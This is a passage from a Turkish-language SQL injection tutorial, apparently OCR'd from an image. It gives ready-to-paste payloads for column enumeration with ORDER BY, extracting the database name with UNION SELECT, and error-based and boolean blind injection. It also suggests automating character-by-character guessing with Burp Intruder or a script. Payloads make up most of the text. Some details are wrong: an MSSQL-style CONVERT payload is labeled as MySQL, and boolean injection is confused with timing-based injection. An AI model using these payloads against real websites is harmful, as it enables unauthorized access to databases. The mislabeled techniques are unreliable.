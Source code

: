 ```sql
sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -

```
✅ Hata verdiği yerde sütun sayısını bulmuş olursun.
Daha sonra:
```sql
sql
' UNION SELECT NULL, database(), NULL-- -
```
✅ Veritabanı adını ikinci sütunda görüntüleyebilirsin.

3️⃣ Error-Based SQL Injection ile Veritabanı İsmini Öğrenme
Eğer sistem hata mesajlarını döndürüyorsa, hata tabanlı SQL Injection yöntemini kullanabilirsin.
MySQL için:
```sql
sql
' AND 1=CONVERT(int, (SELECT database()))-- -

```
💡 Eğer sistem MySQL kullanıyorsa, bu sorgu bir hata döndürerek veritabanı adını gösterebilir.
MSSQL için:
```sql
sql
' AND 1=(SELECT DB_NAME())-- -
```
💡 MSSQL veritabanı adı döndürmeye çalışacaktır.

4️⃣ Boolean-Based (Kör SQL Injection) ile Veritabanı İsmini Öğrenme
Eğer sistem hata mesajlarını göstermiyor ama yanıt süreleri veya sonuçlar değişiyorsa, boolean tabanlı SQL Injection kullanılabilir.
Adım 1: Veritabanı adı tahmin etme
```sql
sql
' AND (SELECT database())='test_db'-- -
```
✅ Eğer sayfa aynı şekilde yükleniyorsa, veritabanı adı test_db olabilir.
✅ Eğer hata veriyorsa veya değişiklik oluyorsa, yanlış tahmin etmiş olabilirsin.
Adım 2: Karakter karakter doğrulama
Eğer veritabanı adını bilmiyorsan ve sistem tek karakterlik karşılaştırmalar yapıyorsa:
```sql
sql
' AND substring(database(),1,1)='t'-- -

```
✅ Eğer sayfa doğru yükleniyorsa, ilk harf t olabilir.
Bunu karakter karakter deneyerek devam edebilirsin:
```sql
sql
' AND substring(database(),2,1)='e'-- -

```
📌 Bu yöntemi otomatikleştirmek için Burp Suite Intruder veya bir Python scripti yazabilirsin.
